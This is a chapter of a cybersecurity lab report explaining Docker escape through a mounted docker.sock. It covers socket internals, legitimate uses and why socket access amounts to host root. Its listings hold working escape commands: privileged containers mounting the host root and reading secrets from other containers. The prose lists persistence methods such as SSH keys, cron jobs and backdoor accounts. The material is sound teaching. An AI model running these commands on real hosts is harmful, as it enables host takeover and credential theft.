%% Chapter 4: The Docker Socket
%% Cybersecurity Lab Report --- Docker Escape via docker.sock Abuse and Command Injection

\chapter{The Docker Socket}

%% ─────────────────────────────────────────────────────────────────────────────
\section{What is a Unix Domain Socket}
%% ─────────────────────────────────────────────────────────────────────────────

A Unix Domain Socket (UDS) is a kernel inter-process communication (IPC) mechanism
that allows two processes on the same host to exchange data without traversing the
network stack. Unlike TCP or UDP sockets, a UDS uses the local kernel's socket
subsystem exclusively: data passes through an in-kernel buffer and never reaches a
network interface card. The socket is represented in the filesystem as a special file
of type \texttt{s}, visible in directory listings as a socket entry.

Two socket types are available: \texttt{SOCK\_STREAM}, which provides a
connection-oriented, ordered byte stream analogous to TCP, and \texttt{SOCK\_DGRAM},
which is connectionless. \texttt{docker.sock} uses \texttt{SOCK\_STREAM}. The kernel
lifecycle for a UDS connection mirrors that of a TCP connection but operates
entirely in memory:

\begin{itemize}
    \item \texttt{socket(AF\_UNIX, SOCK\_STREAM, 0)} --- the server (here,
          \texttt{dockerd}) allocates a socket file descriptor.
    \item \texttt{bind()} --- associates the socket descriptor with a filesystem path,
          creating the socket file at that path.
    \item \texttt{listen()} / \texttt{accept()} --- the server waits for and accepts
          incoming connections.
    \item \texttt{connect()} --- a client (the Docker CLI, \texttt{curl}, or a
          container process) opens a connection to the socket path.
    \item \texttt{send()} / \texttt{recv()} --- data passes through the kernel socket
          buffer. No NIC is involved; no IP address is used.
\end{itemize}

Access control over a UDS is \textit{entirely governed by the filesystem permissions
of the socket file}. There is no network firewall rule, no IP allowlist, and no TLS
by default. The only gate between a process and the daemon listening on the socket is
the result of a standard \texttt{open()} permission check against the socket file's
owner, group, and mode bits.

The kernel does provide one additional mechanism: \texttt{SO\_PEERCRED}, a socket
option that allows the server to query the PID, UID, and GID of the connecting
process. \texttt{dockerd} does query this information and records it in its logs, but
does not enforce any access restrictions based on it. Any process that successfully
opens the socket file receives full API access regardless of its UID---socket access
is the sole credential. This design decision, and its mitigation via a socket proxy,
is examined in Chapter~11.

\begin{lstlisting}[language=bash]
# Socket file type and permissions
ls -la /var/run/docker.sock
# srw-rw---- 1 root docker 0 ... /var/run/docker.sock

# Confirm it is a socket
file /var/run/docker.sock
# /var/run/docker.sock: socket

# Observe syscalls issued by docker CLI when connecting
strace -e socket,connect,sendto docker ps 2>&1 | head -20
# socket(AF_UNIX, SOCK_STREAM, 0) = 3
# connect(3, {sa_family=AF_UNIX,
#             sun_path="/var/run/docker.sock"}, 23) = 0
\end{lstlisting}

\begin{figure}[h]
\centering

\includegraphics[width=0.9\textwidth]{images/ch4/kernel_ipc_flow.png}
% Diagram: Unix Domain Socket --- Kernel IPC Flow
% Shows: dockerd (server) and client process connected via kernel socket buffer
% Socket file path (/var/run/docker.sock) as the filesystem anchor
% Permission check occurring at connect() before data flows
% No network stack involvement --- annotate with "no NIC"
\caption{Unix Domain Socket: Kernel IPC Flow}
\end{figure}

\newpage

%% ─────────────────────────────────────────────────────────────────────────────
\section{\texttt{/var/run/docker.sock} --- What It Is and How It Works}
\label{sec:dockersock-detail}
%% ─────────────────────────────────────────────────────────────────────────────

\texttt{/var/run/docker.sock} is the Unix domain socket created by \texttt{dockerd}
at startup. Its path is located under \texttt{/var/run}, which the Filesystem
Hierarchy Standard designates for runtime data that is cleared on each boot.
\texttt{dockerd} creates it via \texttt{bind(AF\_UNIX, "/var/run/docker.sock")} and
destroys it when the daemon exits; if the daemon is killed without cleanup, a stale
socket file may remain but will be unreachable until the daemon restarts and
re-creates it.

The socket is owned by \texttt{root:docker} with permissions \texttt{srw-rw----}
(mode 660). This means:

\begin{itemize}
    \item UID 0 (root): read and write access.
    \item Members of the \texttt{docker} group: read and write access.
    \item All other users: no access.
\end{itemize}

The protocol carried over the socket is \textbf{HTTP/1.1}, not a custom binary
protocol. The full Docker REST API is exposed as HTTP endpoints, with
\texttt{Content-Type: application/json} for most request and response bodies. Several
response types use HTTP chunked transfer encoding for streaming output---container
logs, the event stream, and image pull progress all use this mechanism. Interactive
sessions (\texttt{docker attach}, \texttt{docker exec -it}) upgrade the HTTP
connection to a WebSocket.

\texttt{dockerd}'s accept loop operates as follows: for each incoming connection, it
calls \texttt{accept()} on the socket file descriptor and spawns a goroutine to handle
the request. The goroutine reads the HTTP request, routes it to the appropriate API
handler function, performs the requested operation with its own root-level privileges,
and writes the JSON response back to the client. No authentication token is checked
and no session state is maintained between requests; each HTTP request is
independently processed.

\begin{lstlisting}[language=bash, caption={Inspecting \texttt{docker.sock} ownership and protocol}]
# Full stat output showing ownership and permissions
stat /var/run/docker.sock
# File: /var/run/docker.sock
# Access: srw-rw---- Uid: 0 (root)  Gid: 999 (docker)

# Locate the socket among dockerd's open file descriptors
ls -la /proc/$(pgrep dockerd)/fd | grep socket

# Verify HTTP protocol --- daemon responds with JSON
curl --unix-socket /var/run/docker.sock http://localhost/version
# {"Version":"24.x","ApiVersion":"1.43", ...}

# Raw HTTP request without curl
echo -e "GET /version HTTP/1.1\r\nHost: localhost\r\n\r\n" | \
  socat - UNIX-CONNECT:/var/run/docker.sock
\end{lstlisting}

\begin{figure}[h]
\centering

\includegraphics[width=0.9\textwidth]{images/ch4/connection_lifecycle.png}
% Diagram: /var/run/docker.sock --- Connection Lifecycle
% Shows:
%   dockerd: bind() → listen() → accept() → parse HTTP → execute → respond
%   client:  connect() → send HTTP request → recv JSON response
%   filesystem permission check as a gate before connect() succeeds
%   kernel socket buffer in the middle carrying HTTP/1.1 frames
\caption{\texttt{/var/run/docker.sock}: Connection Lifecycle}
\end{figure}

The critical observation is that the socket file's permission bits are \textit{the
only access control layer} between a process and full Docker daemon authority. There
is no API key, no bearer token, no mutual TLS on the Unix socket path. A process that
satisfies the filesystem permission check---UID 0, or a process whose GID set includes
\texttt{docker}---is immediately a fully authenticated daemon client.

\newpage

%% ─────────────────────────────────────────────────────────────────────────────
\section{Why Applications Mount the Socket: Legitimate Use Cases}
\label{sec:legit-uses}
%% ─────────────────────────────────────────────────────────────────────────────

The pattern \texttt{-v /var/run/docker.sock:/var/run/docker.sock} is documented in
official guides, widely reproduced in tutorials, and present in default configurations
of several mainstream tools. It exists because certain containerised workloads have
a genuine operational need to manage or observe other containers on the same host.
The bind-mount mechanism is identical to that established in Section~\ref{sec:bindmounts}:
the socket inode is identical on both sides of the mount boundary, and the container
process interacts with the host daemon directly.

Understanding the legitimate demand for this pattern is important to the security
analysis: it explains why the misconfiguration is common in production environments
and why it is frequently overlooked during container configuration reviews.

\subsection{CI/CD Pipelines}

Continuous integration runners such as Jenkins agents, GitLab Runner, and Drone CI
are commonly deployed as containers. When a pipeline stage needs to build or publish
a Docker image, it requires access to a Docker daemon. The operationally simplest
solution---widely documented in official CI platform guides---is to mount the host
socket into the runner container, a pattern sometimes called Docker-outside-of-Docker
(DooD) as a safer alternative to running a full nested Docker daemon
(Docker-in-Docker, DinD).

A build step inside the runner container then issues \texttt{docker build} or
\texttt{docker push} commands, which are transmitted as HTTP requests through the
bind-mounted socket to the host daemon. The daemon performs the actual build with
host-root privileges. The security implication is direct: a compromised CI job, a
malicious dependency in a build step, or a supply-chain attack on the pipeline
configuration inherits full host daemon access for the duration of the job.

\subsection{Container Management Interfaces}

Portainer is a web-based Docker management interface deployed as a container. It
requires socket access to enumerate, start, stop, and reconfigure containers on the
host. Watchtower is an automated container update tool that polls a registry for new
image versions, pulls them, and restarts affected containers; all of these operations
are issued via the daemon API. Both tools mount the socket and require full API
access; neither operates with a scoped read-only credential by default.

Portainer does offer a \textit{socket proxy} deployment mode that interposes a
filtering proxy between Portainer and the socket, but this option is skipped in
the majority of small and homelab deployments. The consequence is that compromising
the Portainer container---through a Portainer vulnerability, a misconfigured admin
credential, or a network exposure---is equivalent to compromising the host.

\subsection{Monitoring and Observability Agents}

The Datadog agent, Prometheus cAdvisor, and Elastic Agent all mount the Docker socket
to collect container metrics: CPU and memory usage, running container lists, image
metadata. These agents require only \texttt{GET} endpoints---\texttt{/containers/json},
\texttt{/stats}, \texttt{/info}---yet the socket grants them the full API surface
including all write and destructive endpoints.

Standard Docker provides no read-only socket mode. Mounting \texttt{docker.sock}
always grants the full API regardless of the caller's intent. This is a structural
least-privilege violation: a monitoring agent that needs \texttt{GET /stats} receives
\texttt{POST /containers/create} and \texttt{DELETE /containers/{id}} as well. The
socket proxy pattern, discussed in Chapter~11, addresses this by whitelisting only
the specific endpoints a given consumer requires.

\newpage

%% ─────────────────────────────────────────────────────────────────────────────
\section{The Danger: What Socket Access Actually Grants}
\label{sec:socket-danger}
%% ─────────────────────────────────────────────────────────────────────────────

Socket access is, precisely, an unauthenticated HTTP connection to a root-privileged
daemon. The following enumerates what this grants concretely, ordered from
reconnaissance to full persistence.

\textbf{Host intelligence gathering:}

\begin{itemize}
    \item List all running and stopped containers, their images, environment variables,
          port mappings, and volume bindings via \texttt{GET /containers/json}.
    \item Inspect any container's full configuration, including its \texttt{Env} field
          which often contains database passwords, API keys, and cloud credentials,
          via \texttt{GET /containers/\{id\}/json}.
    \item Enumerate all images, volumes, and networks present on the host.
    \item Retrieve host-level information including kernel version, OS type, Docker
          root directory, and active security options via \texttt{GET /info}.
\end{itemize}

\textbf{Container control:}

\begin{itemize}
    \item Start, stop, pause, and kill any container on the host.
    \item Execute commands in any running container via
          \texttt{POST /containers/\{id\}/exec} --- this includes containers belonging
          to unrelated workloads.
    \item Stream the logs of any container, which may contain credentials, session
          tokens, or sensitive business data.
\end{itemize}

\textbf{Host filesystem access:}

\begin{itemize}
    \item Create a new container with \texttt{"Binds": ["/:/hostfs"]} and
          \texttt{"Privileged": true}. The daemon mounts the entire host root
          filesystem into the new container. The new container's capability
          restrictions, seccomp profile, and namespace boundaries are set by the
          daemon at creation time---the attacker's original container's restrictions
          are entirely irrelevant.
    \item From within the new container, \texttt{chroot /hostfs} provides an
          interactive shell rooted at the real host filesystem. All files are
          accessible as host root.
\end{itemize}

\textbf{Persistence:}

\begin{itemize}
    \item Write an SSH public key to \texttt{/root/.ssh/authorized\_keys} via the
          host mount, establishing permanent authenticated access.
    \item Install a cron job under \texttt{/etc/cron.d/} on the host filesystem.
    \item Modify \texttt{/etc/passwd} or \texttt{/etc/sudoers} to create a
          backdoor account.
    \item Deploy a container with \texttt{--restart=always} that persists across
          host reboots and provides a persistent reverse shell or relay.
\end{itemize}

The privilege escalation path used in this project follows four steps:

\begin{enumerate}
    \item The target container has \texttt{/var/run/docker.sock} bind-mounted.
    \item The attacker installs the Docker CLI inside the container (or uses
          \texttt{curl} directly).
    \item The CLI issues \texttt{docker run -v /:/hostfs alpine} as an HTTP POST
          through the socket to the host daemon.
    \item The daemon creates and starts a new privileged container with the host
          root filesystem mounted; a command executed inside it writes directly to
          the real host filesystem.
\end{enumerate}

No kernel exploit is involved at any stage. The daemon performs all privileged
operations using its own credentials.

\begin{lstlisting}[language=bash, caption={Demonstrating socket access from within a container}]
# Confirm socket is accessible from inside the container
ls -la /var/run/docker.sock

# List all containers on host without docker binary
curl -s --unix-socket /var/run/docker.sock \
  http://localhost/containers/json | python3 -m json.tool

# Dump env vars of any container (may contain secrets)
curl -s --unix-socket /var/run/docker.sock \
  http://localhost/containers/netdiag-app/json | \
  python3 -c "import sys,json; \
  [print(e) for e in json.load(sys.stdin)['Config']['Env']]"

# The escape --- spawn privileged container with host root
docker -H unix:///var/run/docker.sock run --rm \
  -v /:/hostfs alpine \
  chroot /hostfs sh -c 'id > /tmp/escaped.txt'
\end{lstlisting}


%% ─────────────────────────────────────────────────────────────────────────────
\section{The Docker API Over the Socket --- curl Examples}
\label{sec:api-curl}
%% ─────────────────────────────────────────────────────────────────────────────

The Docker CLI is not required to interact with the daemon. Because the protocol over
the socket is plain HTTP/1.1, any HTTP client capable of connecting to a Unix domain
socket---\texttt{curl}, \texttt{socat}, \texttt{wget}, or a custom script---is
sufficient. This has a significant implication for attack scenarios: the absence of a
\texttt{docker} binary inside a container does not prevent daemon exploitation if the
socket is accessible.

The API is versioned at \texttt{/v1.43/\ldots} but unversioned paths such as
\texttt{/containers/json} are accepted and resolved to the daemon's current API
version. Responses are JSON; the \texttt{python3 -m json.tool} pipeline provides
readable output without additional dependencies.

Container execution via the raw API is a two-step process: \texttt{POST
/containers/create} returns a container ID; \texttt{POST /containers/\{id\}/start}
launches it. The table below maps the operations relevant to the attack chain.

\begin{table}[h]
\centering
\caption{Docker API Endpoints Relevant to the Attack Chain}
\label{tab:api-endpoints}
\begin{tabular}{|l|l|l|l|}
\hline
\textbf{Operation}        & \textbf{Method} & \textbf{Endpoint}                          & \textbf{Body}      \\
\hline
List containers           & GET             & \texttt{/containers/json}                  & ---                \\
Inspect container         & GET             & \texttt{/containers/\{name\}/json}         & ---                \\
Create container          & POST            & \texttt{/containers/create}                & JSON config        \\
Start container           & POST            & \texttt{/containers/\{id\}/start}          & ---                \\
Exec in container         & POST            & \texttt{/containers/\{id\}/exec}           & JSON cmd           \\
Pull image                & POST            & \texttt{/images/create?fromImage=alpine}   & ---                \\
Host info                 & GET             & \texttt{/info}                             & ---                \\
List volumes              & GET             & \texttt{/volumes}                          & ---                \\
\hline
\end{tabular}
\end{table}

\begin{lstlisting}[language=bash, caption={Raw API interaction: host reconnaissance and full escape without the Docker binary}]
# 1. Daemon version and host OS information
curl -s --unix-socket /var/run/docker.sock \
  http://localhost/info | python3 -m json.tool | \
  grep -E '"Name"|"OSType"|"DockerRootDir"|"SecurityOptions"'

# 2. List running containers with names and short IDs
curl -s --unix-socket /var/run/docker.sock \
  "http://localhost/containers/json" | \
  python3 -c "import sys,json; \
  [print(c['Names'], c['Id'][:12]) for c in json.load(sys.stdin)]"

# 3. Full escape via raw API --- no docker binary required
# Step A: create the container
CID=$(curl -s --unix-socket /var/run/docker.sock \
  -X POST http://localhost/containers/create \
  -H "Content-Type: application/json" \
  -d '{
    "Image": "alpine",
    "Cmd":   ["sh","-c",
              "echo pwned_via_api > /hostfs/tmp/escaped.txt"],
    "HostConfig": {"Binds":["/:/hostfs"], "Privileged":true}
  }' | python3 -c "import sys,json; print(json.load(sys.stdin)['Id'])")

# Step B: start it
curl -s --unix-socket /var/run/docker.sock \
  -X POST "http://localhost/containers/${CID}/start"

# 4. Read secrets from another container's environment
curl -s --unix-socket /var/run/docker.sock \
  http://localhost/containers/netdiag-app/json | \
  python3 -c "import sys,json; \
  d=json.load(sys.stdin); \
  [print(e) for e in d['Config']['Env']]"
\end{lstlisting}

The two-step create-then-start sequence in the listing above is the exact flow that
Chapter~8 traces at the syscall level when the escape is performed against the live
lab environment. The \texttt{HostConfig.Binds} and \texttt{HostConfig.Privileged}
fields in the create body are the JSON representation of the \texttt{-v} and
\texttt{--privileged} flags that \texttt{dockerd} translates into an OCI
\texttt{config.json} before handing the bundle to \texttt{runc}.


%% ─────────────────────────────────────────────────────────────────────────────
\section{Root Equivalence --- Why Socket Access = Host Root}
\label{sec:root-equiv}
%% ─────────────────────────────────────────────────────────────────────────────

The preceding sections establish the individual components of a formal equivalence
claim. This section states and defends that claim directly: \textit{access to
\texttt{docker.sock} is functionally equivalent to an interactive root shell on the
host}.

The argument proceeds from three premises. First, \texttt{dockerd} runs as UID 0 on
the host with a full, unrestricted Linux capability set including
\texttt{CAP\_SYS\_ADMIN}. Second, \texttt{dockerd} executes every API request using
its own credentials; it does not drop privilege or impersonate the caller. Third, any
process that successfully opens the socket file receives full API access with no
further authentication. Combining these premises: socket access confers the ability
to direct a root-privileged process to perform arbitrary host operations on the
caller's behalf. The caller requires no privilege of its own.

The practical completeness of this equivalence can be assessed by examining each
defensive layer from Chapter~2 in turn.

\textbf{Namespace boundaries:} A new container created via the API can be configured
with \texttt{--pid=host}, \texttt{--network=host}, \texttt{--userns=host}, and
\texttt{-v /:/hostfs}. Each flag removes a namespace boundary that was in place for
the attacker's original container. The daemon sets these parameters at creation time
using its own host-level namespace membership; the attacker's container namespaces
are irrelevant to the new container's configuration.

\textbf{Capability restrictions:} The API accepts \texttt{"Privileged": true} and
\texttt{"CapAdd": ["ALL"]} in the container create body. Regardless of what
capabilities the attacker's container holds, the daemon can grant the newly spawned
container a full capability set.

\textbf{Seccomp and AppArmor:} The create body accepts
\texttt{"SecurityOpt": ["seccomp:unconfined", "apparmor:unconfined"]}, disabling both
filters on the new container. As established in Sections~2.7 and~2.8, neither filter
is enforced against the daemon's own operations in any case.

\textbf{cgroup limits:} No resource limits are applied to an attacker-spawned
container unless explicitly configured. CPU, memory, and PID limits set on the
attacker's original container do not propagate to new containers it creates.

The conclusion is that every defensive layer enumerated in Table~\ref{tab:isolation-gaps}
of Chapter~2 can be individually circumvented through daemon API parameters. The
daemon removes each restriction on the attacker's behalf.

Table~\ref{tab:escalation-vectors} contextualises docker.sock access within the
broader landscape of host privilege escalation paths.

\begin{table}[h]
\centering
\caption{Host Privilege Escalation Vectors: Comparative Assessment}
\label{tab:escalation-vectors}
\begin{tabular}{|l|l|l|}
\hline
\textbf{Vector}                       & \textbf{Prerequisite}           & \textbf{Reliability}      \\
\hline
\texttt{docker.sock} access           & Socket file permission          & Deterministic             \\
Kernel exploit                        & Unpatched CVE                   & Version-dependent         \\
\texttt{--privileged} container       & Container flag at creation      & Deterministic             \\
Writable \texttt{/etc/cron.d}         & File permission                 & Deterministic             \\
SUID binary abuse                     & Vulnerable binary present       & Situational               \\
\hline
\end{tabular}
\end{table}

Among the deterministic vectors, \texttt{docker.sock} access is the most commonly
encountered in containerised production environments because the socket mount pattern
is operationally motivated (Section~\ref{sec:legit-uses}) and widely documented in
official tooling guides. It requires no vulnerability in the kernel, runtime, or
application---only the presence of the socket file at a path accessible to the
container.

This equivalence is recognised across the major security frameworks governing
container deployments. The CIS Docker Benchmark, OWASP Docker Security Cheat Sheet,
and NIST SP 800-190 (Application Container Security Guide) all classify unrestricted
\texttt{docker.sock} mounting as a critical misconfiguration. The remediation
strategies they recommend---socket proxies, rootless Docker, and daemon socket
removal---are evaluated in Chapter~11.

A comparable real-world pattern was observed in the 2018 Tesla cryptojacking incident,
in which an exposed Kubernetes dashboard provided unauthenticated access to the
cluster control plane. Control-plane access translated to the ability to schedule
workloads with cloud metadata service access, which yielded AWS credentials. The
structural pattern---control-plane API access equals host compromise---is identical to
the \texttt{docker.sock} scenario: neither required a software vulnerability, only an
exposed management interface.